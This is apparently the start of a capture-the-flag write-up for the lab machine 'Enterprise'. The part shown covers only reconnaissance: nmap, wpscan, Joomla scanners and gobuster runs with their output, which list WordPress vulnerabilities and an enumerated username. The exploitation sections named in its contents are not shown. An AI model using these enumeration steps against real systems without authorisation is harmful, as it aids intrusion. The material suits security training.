



#### Enterprise

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Reverse Shell on Wordpress docker](#reverse-shell-on-wordpress-docker)
- [Gaining access to mysql docker using msf and proxychain](#gaining-access-to-mysql-docker-using-msf-and-proxychain)
- [Reverse shell on joomla docker](#reverse-shell-on-joomla-docker)
- [Privilege Escalation](#privilege-escalation)
- [Buffer Overflow Exploitation](#buffer-overflow-exploitation)
- [SQL Injection](#sql-injection)

###### Attacker Info

```sh
root@kali:~/enterprise# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 12430  bytes 17953937 (17.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2882  bytes 219143 (214.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::4fff:43b2:33ca:d595  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 179  bytes 9168 (8.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 184  bytes 7532 (7.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/enterprise#
```

###### Nmap Scan

```sh
root@kali:~/enterprise# nmap -sV 10.10.10.61
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-30 01:39 EDT
Nmap scan report for enterprise.local (10.10.10.61)
Host is up (0.23s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.10 ((Debian))
443/tcp  open  ssl/http Apache httpd 2.4.25 ((Ubuntu))
8080/tcp open  http     Apache httpd 2.4.10 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.19 seconds
root@kali:~/enterprise#
```

###### Web Enumeration

```
http://10.10.10.61/
https://10.10.10.61/
http://10.10.10.61:8080/
```





```
jeanlucpicard@enterprise.local
```


```sh
root@kali:~/enterprise# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
10.10.10.61	enterprise.local enterprise.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/enterprise#
```


```sh
root@kali:~/enterprise# wpscan -u http://10.10.10.61 --enumerate p,t,u,tt
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]Y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://10.10.10.61/
[+] Started: Tue May 29 23:46:25 2018

[!] The WordPress 'http://10.10.10.61/readme.html' file exists exposing a version number
[!] Full Path Disclosure (FPD) in 'http://10.10.10.61/wp-includes/rss-functions.php':
[+] Interesting header: LINK: <http://enterprise.htb/index.php?rest_route=/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.10 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/5.6.31
[+] XML-RPC Interface available under: http://10.10.10.61/xmlrpc.php

[+] WordPress version 4.8.1 (Released on 2017-08-02) identified from links opml, stylesheets numbers, advanced fingerprinting, meta generator
[!] 17 vulnerabilities identified from the version number

[!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8905
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8910
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41398
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
[i] Fixed in: 4.8.2

[!] Title: WordPress 3.0-4.8.1 - Path Traversal in Unzipping
    Reference: https://wpvulndb.com/vulnerabilities/8911
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41457
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Path Traversal in Customizer
    Reference: https://wpvulndb.com/vulnerabilities/8912
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41397
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14722
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Cross-Site Scripting (XSS) in oEmbed
    Reference: https://wpvulndb.com/vulnerabilities/8913
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41448
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14724
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.2.3-4.8.1 - Authenticated Cross-Site Scripting (XSS) in Visual Editor
    Reference: https://wpvulndb.com/vulnerabilities/8914
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41395
    Reference: https://blog.sucuri.net/2017/09/stored-cross-site-scripting-vulnerability-in-wordpress-4-8-1.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14726
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
    Reference: https://wpvulndb.com/vulnerabilities/8807
    Reference: https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
    Reference: http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
    Reference: https://core.trac.wordpress.org/ticket/25239
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295

[!] Title: WordPress <= 4.8.2 - $wpdb->prepare() Weakness
    Reference: https://wpvulndb.com/vulnerabilities/8941
    Reference: https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d
    Reference: https://twitter.com/ircmaxell/status/923662170092638208
    Reference: https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510
[i] Fixed in: 4.8.3

[!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
    Reference: https://wpvulndb.com/vulnerabilities/8966
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
[i] Fixed in: 4.8.4

[!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8967
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
[i] Fixed in: 4.8.4

[!] Title: WordPress 4.3.0-4.9 - HTML Language Attribute Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8968
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/3713ac5ebc90fb2011e98dfd691420f43da6c09a
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17093
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
    Reference: https://wpvulndb.com/vulnerabilities/8969
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9006
    Reference: https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
    Reference: https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/ticket/42720
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
[i] Fixed in: 4.8.5

[!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/wordpress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
    Reference: https://wpvulndb.com/vulnerabilities/9053
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
[i] Fixed in: 4.8.6

[!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
    Reference: https://wpvulndb.com/vulnerabilities/9054
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
[i] Fixed in: 4.8.6

[!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
    Reference: https://wpvulndb.com/vulnerabilities/9055
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
[i] Fixed in: 4.8.6

[+] WordPress theme in use: twentyseventeen - v1.3

[+] Name: twentyseventeen - v1.3
 |  Last updated: 2018-05-17T00:00:00.000Z
 |  Location: http://10.10.10.61/wp-content/themes/twentyseventeen/
 |  Readme: http://10.10.10.61/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.6
 |  Style URL: http://10.10.10.61/wp-content/themes/twentyseventeen/style.css
 |  Referenced style.css: http://enterprise.htb/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating installed plugins (only ones marked as popular) ...

   Time: 00:00:29 <===================================================================================================================================================> (1491 / 1491) 100.00% Time: 00:00:29

[+] We found 1 plugins:

[+] Name: akismet
 |  Latest version: 4.0.7
 |  Last updated: 2018-05-28T16:19:00.000Z
 |  Location: http://10.10.10.61/wp-content/plugins/akismet/

[!] We could not determine a version so all vulnerabilities are printed out

[!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8215
    Reference: http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
    Reference: https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
[i] Fixed in: 3.1.5

[+] Enumerating installed themes (only ones marked as popular) ...

   Time: 00:00:07 <=====================================================================================================================================================> (400 / 400) 100.00% Time: 00:00:07

[+] We found 3 themes:

[+] Name: twentyfifteen - v1.8
 |  Last updated: 2018-05-17T00:00:00.000Z
 |  Location: http://10.10.10.61/wp-content/themes/twentyfifteen/
 |  Readme: http://10.10.10.61/wp-content/themes/twentyfifteen/readme.txt
[!] The version is out of date, the latest version is 2.0
 |  Style URL: http://10.10.10.61/wp-content/themes/twentyfifteen/style.css
 |  Theme Name: Twenty Fifteen
 |  Theme URI: https://wordpress.org/themes/twentyfifteen/
 |  Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple,...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Name: twentyseventeen - v1.3
 |  Last updated: 2018-05-17T00:00:00.000Z
 |  Location: http://10.10.10.61/wp-content/themes/twentyseventeen/
 |  Readme: http://10.10.10.61/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.6
 |  Style URL: http://10.10.10.61/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Name: twentysixteen - v1.3
 |  Last updated: 2018-05-17T00:00:00.000Z
 |  Location: http://10.10.10.61/wp-content/themes/twentysixteen/
 |  Readme: http://10.10.10.61/wp-content/themes/twentysixteen/readme.txt
[!] The version is out of date, the latest version is 1.5
 |  Style URL: http://10.10.10.61/wp-content/themes/twentysixteen/style.css
 |  Theme Name: Twenty Sixteen
 |  Theme URI: https://wordpress.org/themes/twentysixteen/
 |  Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthe...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating timthumb files ...

   Time: 00:00:52 <===================================================================================================================================================> (2574 / 2574) 100.00% Time: 00:00:52

[+] No timthumb files found

[+] Enumerating usernames ...
[+] Identified the following 1 user/s:
    +----+---------------+---------------------+
    | Id | Login         | Name                |
    +----+---------------+---------------------+
    | 1  | william-riker | william.riker – USS |
    +----+---------------+---------------------+

[+] Finished: Tue May 29 23:48:13 2018
[+] Requests Done: 4555
[+] Memory used: 52.008 MB
[+] Elapsed time: 00:01:47
root@kali:~/enterprise#
```

```sh
root@kali:~/enterprise# git clone https://github.com/rastating/joomlavs.git
Cloning into 'joomlavs'...
remote: Counting objects: 1057, done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 1057 (delta 0), reused 1 (delta 0), pack-reused 1055
Receiving objects: 100% (1057/1057), 313.43 KiB | 2.05 MiB/s, done.
Resolving deltas: 100% (676/676), done.
root@kali:~/enterprise# cd joomlavs/
root@kali:~/enterprise/joomlavs# gem install bundler && bundle install
Fetching: bundler-1.16.2.gem (100%)
Successfully installed bundler-1.16.2
Parsing documentation for bundler-1.16.2
Installing ri documentation for bundler-1.16.2
Done installing documentation for bundler after 4 seconds
1 gem installed
Don't run Bundler as root. Bundler can ask for sudo if it is needed, and installing your bundle as root will break this application for all non-root users on this machine.
Fetching gem metadata from https://rubygems.org/........
Resolving dependencies...
Using bundler 1.16.2
Fetching colorize 0.8.1
Installing colorize 0.8.1
Using diff-lcs 1.3
Fetching ffi 1.9.23
Installing ffi 1.9.23 with native extensions
Fetching ethon 0.11.0
Installing ethon 0.11.0
Using nokogiri 1.8.2
Using rspec-support 3.7.1
Fetching rspec-core 3.7.1
Installing rspec-core 3.7.1
Using rspec-expectations 3.7.0
Fetching rspec-mocks 3.7.0
Installing rspec-mocks 3.7.0
Fetching rspec 3.7.0
Installing rspec 3.7.0
Fetching slop 4.6.2
Installing slop 4.6.2
Fetching typhoeus 1.3.0
Installing typhoeus 1.3.0
Bundle complete! 5 Gemfile dependencies, 13 gems now installed.
Use `bundle info [gemname]` to see where a bundled gem is installed.
root@kali:~/enterprise/joomlavs#
```

```sh
root@kali:~/enterprise/joomlavs# ./joomlavs.rb -u http://10.10.10.61:8080 -a

----------------------------------------------------------------------

     ██╗ ██████╗  ██████╗ ███╗   ███╗██╗      █████╗ ██╗   ██╗███████╗
     ██║██╔═══██╗██╔═══██╗████╗ ████║██║     ██╔══██╗██║   ██║██╔════╝
     ██║██║   ██║██║   ██║██╔████╔██║██║     ███████║██║   ██║███████╗
██   ██║██║   ██║██║   ██║██║╚██╔╝██║██║     ██╔══██║╚██╗ ██╔╝╚════██║
╚█████╔╝╚██████╔╝╚██████╔╝██║ ╚═╝ ██║███████╗██║  ██║ ╚████╔╝ ███████║
 ╚════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝  ╚═══╝  ╚══════╝

----------------------------------------------------------------------

[+] URL: http://10.10.10.61:8080
[+] Started: Tue May 29 23:49:30 2018

[+] Found 2 interesting headers.
 |  Server: Apache/2.4.10 (Debian)
 |  X-Powered-By: PHP/7.0.23

[+] Joomla version 3.7.5 identified from admin manifest
[!] Found 0 vulnerabilities affecting this version of Joomla!

[+] Scanning for vulnerable components...
[!] Found 0 vulnerable components.

------------------------------------------------------------------

[+] Scanning for vulnerable modules...
[!] Found 0 vulnerable modules.

------------------------------------------------------------------

[+] Scanning for vulnerable templates...
[!] Found 0 vulnerable templates.

------------------------------------------------------------------

[+] Finished

root@kali:~/enterprise/joomlavs#
```

```sh
root@kali:~/enterprise# git clone https://github.com/rezasp/joomscan.git
Cloning into 'joomscan'...
remote: Counting objects: 186, done.
remote: Total 186 (delta 0), reused 0 (delta 0), pack-reused 186
Receiving objects: 100% (186/186), 233.27 KiB | 1.37 MiB/s, done.
Resolving deltas: 100% (70/70), done.
root@kali:~/enterprise# cd joomscan/
root@kali:~/enterprise/joomscan# ls
CHANGELOG.md  core  exploit  joomscan.pl  LICENSE.md  love.txt  modules  README.md  reports  version
root@kali:~/enterprise/joomscan#
```

```sh
root@kali:~/enterprise/joomscan# ./joomscan.pl -u http://10.10.10.61:8080

    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.5
    +---++---==[Update Date : [2018/03/13]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : KLOT
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.10.61:8080 ...


[+] Detecting Joomla Version
[++] Joomla 3.7.5

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.10.61:8080/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.10.61:8080/robots.txt

Interesting path found from robots.txt
http://10.10.10.61:8080/joomla/administrator/
http://10.10.10.61:8080/administrator/
http://10.10.10.61:8080/bin/
http://10.10.10.61:8080/cache/
http://10.10.10.61:8080/cli/
http://10.10.10.61:8080/components/
http://10.10.10.61:8080/includes/
http://10.10.10.61:8080/installation/
http://10.10.10.61:8080/language/
http://10.10.10.61:8080/layouts/
http://10.10.10.61:8080/libraries/
http://10.10.10.61:8080/logs/
http://10.10.10.61:8080/modules/
http://10.10.10.61:8080/plugins/
http://10.10.10.61:8080/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/10.10.10.61:8080/
root@kali:~/enterprise/joomscan#
```

```sh
root@kali:~/enterprise# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.61:8080 -k -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.61:8080/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/images (Status: 301)
/home (Status: 200)
/about (Status: 200)
/2 (Status: 200)
/templates (Status: 301)
/media (Status: 301)
/1 (Status: 200)
/02 (Status: 200)
/files (Status: 301)
/01 (Status: 200)
/modules (Status: 301)
/0 (Status: 200)
/Home (Status: 200)
/bin (Status: 301)
/plugins (Status: 301)
/About (Status: 200)
/includes (Status: 301)
/1x1 (Status: 200)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/001 (Status: 200)
/002 (Status: 200)
/1pix (Status: 200)
/tmp (Status: 301)
/layouts (Status: 301)
/1a (Status: 200)
/0001 (Status: 200)
/1x1transparent (Status: 200)
/1px (Status: 200)
/administrator (Status: 301)
/1d (Status: 200)
/2c (Status: 200)
/1_1 (Status: 200)
/0002 (Status: 200)
/2d (Status: 200)
/2a (Status: 200)
/1pixel (Status: 200)
/2minbdoor (Status: 200)
/2b (Status: 200)
/0002-exploits (Status: 200)
/0001-exploits (Status: 200)
/01_hello (Status: 200)
/02_chardev (Status: 200)
/1-1 (Status: 200)
/HOME (Status: 200)
/1st (Status: 200)
/2nd (Status: 200)
/000002 (Status: 200)
/00000001 (Status: 200)
/1X1 (Status: 200)
/1x1_spacer (Status: 200)
/1b (Status: 200)
/1s (Status: 200)
/2x (Status: 200)
/1f (Status: 200)
/1h (Status: 200)
/1x1trans (Status: 200)
/00001 (Status: 200)
/1click (Status: 200)
/1_2006 (Status: 200)
/1_2007 (Status: 200)
/1c (Status: 200)
/000001 (Status: 200)
/1by1 (Status: 200)
/2-4 (Status: 200)
/2stars (Status: 200)
/1ptrans (Status: 200)
/2pac (Status: 200)
```

```sh
root@kali:~/enterprise# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.61 -k -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.61/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
=====================================================
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
```

```sh
root@kali:~/enterprise# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.61 -k -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.61/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/files (Status: 301)
```

```
https://10.10.10.61/files/
```


```sh
root@kali:~/enterprise# unzip lcars.zip -d lcars
